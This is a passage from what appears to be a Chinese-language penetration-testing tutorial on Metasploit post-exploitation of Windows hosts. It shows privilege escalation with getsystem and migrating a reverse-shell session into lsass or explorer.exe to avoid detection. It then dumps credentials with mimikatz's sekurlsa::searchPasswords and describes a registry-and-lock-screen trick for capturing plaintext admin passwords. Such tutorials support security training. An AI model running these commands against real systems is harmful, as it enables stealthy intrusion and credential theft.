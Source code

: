 这里`getuid`可以看到咱们是god/admin，
（当然不是admin可能反弹shell都上传不了--，如果拿到shell需要提权的话msf也有命令可以提权：`getsystem`）

然后就是维持权限了，把咱们的反弹shell迁移到系统自身进程上去：
`ps`查看进程，再迁徙就行（一般可以注入到像是 lsass 或者 explorer 这样的进程当中，相对比较隐蔽，较难排查）
执行`migrate 504`即可
可以看到lsass进程pid为504，反弹shell进程为4300，执行后就由4300迁徙到504啦

![lsass进程pid为504](https://i.loli.net/2021/04/17/NS8DJQkWrHfLdoC.png)

![反弹shell进程为4300](https://i.loli.net/2021/04/17/27WBGoczia1PtO4.png)


也可以用进程名进行迁移，如下

```shell
# 迁移到任务管理器中
migrate -N explorer.exe  

# 设置反弹shell后自动迁移
set autorunscript migrate -N explorer.exe
或者
set autorunscript migrate -f (默认迁移到记事本)
```

然后就是抓取管理员密码了，windows抓取密码的话当然是mimikatz~：`load mimikatz`运行msf自带的mimikatz模块

> mimikatz：
> 1.`mimikatz`可以直接从 lsass.exe 进程里获取windows处于active状态账号的明文密码
>
> （lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz 正是通过对lsass逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！）
> 2.`mimikatz`模块的使用需要Administrator权限或者System权限。MSF中自带mimikatz模块，MSF中的 mimikatz 模块同时支持32位和64位的系统，但是`该模块默认是加载32位的系统`，所以如果目标主机是64位系统的话，直接默认加载该模块会导致很多功能无法使用。而且在64位系统下必须先查看系统进程列表，然后将meterpreter进程迁移到一个64位程序的进程中，才能加载mimikatz并且查看系统明文。但是在32位系统下则没有这个限制。
>
> ```
> 相关命令可以输入：help mimikatz来查看，如下
> (只能显示七个命令，可以通过mimikatz_command输入一条错误指令来显示完整的功能命令
> eg：mimikatz_command -f a::)
> kerberos：kerberos相关的模块
> livessp：尝试检索livessp凭据
> mimikatz_command：运行一个定制的命令
> msv：msv凭证相关的模块，列出目标主机的用户密码哈希
> ssp：ssp凭证相关的模块
> tspkg：tspkg凭证相关的模块
> wdigest：wdigest凭证相关的模块
> ```
> ![完整功能命令](https://i.loli.net/2021/04/17/MGgXVyiwhf2xka1.png)
>
> 这里用到的是`sekurlsa`下的`searchPasswords`功能来查看明文密码
> (ps:这里本身就是`NT AUTHORITY\SYSTEM`,就不用`privilege::debug`进行提权了)
>
> ```shell
> mimikatz_command -f sekurlsa::searchPasswords
> ```
>
> ~不过我这拿不到明文，只能得到密文--~
>
> > 原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
> >
> > 利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
> >
> > 抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码
>
> ![](https://i.loli.net/2021/04/18/DhwS9J5APNuQ7b2.png)
